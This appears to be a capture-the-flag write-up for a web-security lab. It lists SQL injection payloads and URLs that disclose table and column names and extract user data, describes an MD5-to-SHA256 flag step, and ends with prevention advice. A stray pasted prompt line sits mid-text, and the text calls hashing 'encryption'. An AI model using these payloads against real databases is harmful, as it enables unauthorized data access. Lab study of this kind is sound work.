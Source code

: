 # SQL Injection and Cryptographic Challenge Documentation

## Overview

This document provides a comprehensive guide on identifying and exploiting SQL injection vulnerabilities within a web application. Additionally, it outlines a cryptographic challenge involving MD5 hash decryption and SHA256 re-encryption, aimed at enhancing understanding of cryptographic principles and practices.

## Vulnerability Description

SQL injection vulnerabilities occur when an attacker is able to insert or "inject" a SQL query via the input data from the client to the application. This document details various types of SQL injection attacks, including table name disclosure, boolean-based SQL injection, column name disclosure, and data extraction, highlighting the potential for unauthorized access to or manipulation of database information.

## Exploitation

### Table Name Disclosure

- **Injection Point**: The `id` parameter on the `member` page.
- **Payload**: `1 UNION SELECT null, table_name FROM information_schema.tables`
- **URL Example**: http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+null%2C+table_name+FROM+information_schema.tables&Submit=Submit

### Boolean-Based SQL Injection

- **Payloads**:
- `1 OR 1=1`: Forces the application to return true for all conditions.
- `1 OR EXISTS (SELECT * FROM users)`: Checks if the `users` table contains any rows.
- **URL Example**: http://<ip_address>/index.php?page=member&id=1+OR+EXISTS+%28SELECT+\*+FROM+users+%29%3B+--+&Submit=Submit#

### Column Name Disclosure

- **Payload**: `1 UNION SELECT table_name, column_name FROM information_schema.columns`
- **URL Example**: http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#

### Data Extraction

- **Payload**: `1 OR 1=1 UNION SELECT title, comment from users`
- **Context**: This payload is used to extract `title` and `comment` from the `users` table.

## Cryptographic Challenge

- **Challenge**: Decrypt an MD5 hash and then re-encrypt the plaintext using SHA256.
- **MD5 Hash**: `1928e8083cf461a51303633093573c46`
- **Decrypted Text**: "albatroz"
- **Instructions**: Decrypt the given MD5 hash to plaintext, convert the plaintext to lowercase, and then encrypt it using SHA256 to reveal a flag.

## Additional Information

- The "list_images" table contains the following columns: `id`, `url`, `title`, `comment`.
- The cryptographic challenge provides a unique opportunity to apply decryption and encryption techniques to retrieve a hidden flag.
  For context, I have the following markdown in a file called `/Users/ionmi/Development/42/darkly/images_sql_injection/Ressources/README.md`:

## Prevention

- **Parameterized Queries**: Use parameterized queries to prevent SQL injection, as they ensure that the input is treated as a data value rather than part of the SQL command.
- **Input Validation**: Implement strict input validation checks to reject suspicious or malformed data.
- **Use of Prepared Statements**: With prepared statements, the SQL query is defined separately from its parameters, minimizing the risk of injection.
- **Employ Stronger Hashing Algorithms**: Replace MD5 with more secure hashing algorithms like SHA-256 to enhance cryptographic security.
- **Regular Security Audits**: Conduct thorough security audits and penetration testing to identify and mitigate vulnerabilities.

## Additional Resources

- [OWASP SQL Injection Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [MD5 Hash Generator and Decrypt](https://md5decrypt.net/en/)
- [OWASP Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)

This documentation aims to raise awareness about the critical nature of SQL injection vulnerabilities and the importance of cryptographic security in modern web applications. By understanding and applying the outlined prevention techniques, developers and security professionals can significantly enhance the security posture of their applications.

